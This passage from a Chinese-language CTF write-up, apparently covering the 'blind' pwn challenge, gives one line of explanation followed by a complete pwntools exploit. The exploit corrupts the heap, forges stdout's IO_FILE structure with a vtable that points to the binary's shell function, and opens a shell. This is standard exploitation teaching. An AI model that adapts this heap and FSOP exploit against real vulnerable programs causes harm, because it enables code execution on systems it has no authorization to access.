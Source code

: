 我们得到了任意地址写，在bss段伪造stdout的iofile结构，而且程序里边自带一个shell函数，把vtable里的函数改成shell地址就可以了
```python
    from pwn import *
    context.log_level = 'debug'
    context.arch = "amd64"
    io = process('./blind')
    elf = ELF('blind')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(idx,content):
    	io.recvuntil('Choice:')
    	io.sendline('1')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.sendline(content)
    def delete(idx):
    	io.recvuntil('Choice:')
    	io.sendline('3')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    def edit(idx,content):
    	io.recvuntil('Choice:')
    	io.sendline('2')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.sendline(content)
    
    heaplst = 0x602060
    
    std_out = 0x602020
    
    shell_addr=0x4008E3
    add(0,'1111')
    add(1,'2222')
    delete(0)
    edit(0,p64(0x60203d))
    add(2,'aaaa')
    payload='aaa' + 'a'*0x10+p64(std_out) + p64(0x602090) + p64(0x602090 + 0x68)+p64(0x602090 + 0x68*2) + p64(0x602090 + 0x68*3)
    add(3,payload)
    IO_payload=p64(0x00000000fbad8000)+p64(0x602500)*7+p64(0x602501)+p64(0)*9+p64(0x602600)+p64(0)*8+p64(0x602090+0x68*3)
    vtable_payload=p64(shell_addr)*13
    edit(1,IO_payload[0:0x68])
    edit(2,IO_payload[0x68:0xd0])
    edit(3,IO_payload[0xd0:])
    edit(4,vtable_payload)
    edit(0,p64(0x602090))
    io.interactive()
```
# 3.guess
